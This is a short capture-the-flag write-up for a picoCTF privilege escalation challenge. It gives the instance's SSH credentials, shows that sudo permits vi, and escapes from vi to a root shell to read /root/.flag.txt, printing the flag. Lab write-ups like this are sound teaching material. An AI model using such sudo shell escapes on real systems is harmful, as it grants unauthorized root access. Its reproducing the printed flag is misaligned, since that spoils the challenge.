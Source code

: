 # soal
Can you read files in the root file?
Additional details will be available after launching your challenge instance.

## launch istance
ssh -p 62223 picoplayer@saturn.picoctf.net \
Password: 33qE7mB5BF \
Can you login and read the root file?

# hint
- What permissions do you have?

# solve
```bash
ssh -p 62223 picoplayer@saturn.picoctf.net
# picoplayer@saturn.picoctf.net's password: 33qE7mB5BF

sudo -l
# [sudo] password for picoplayer:
# User picoplayer may run the following commands on challenge:
#     (ALL) /usr/bin/vi

## gtf obins
sudo vi -c ':!/bin/sh' /dev/nul

## or manual
sudo vi
# ESC
:!/bin/bash

cd /root
cat .flag.txt
# picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}
```

# flag
picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}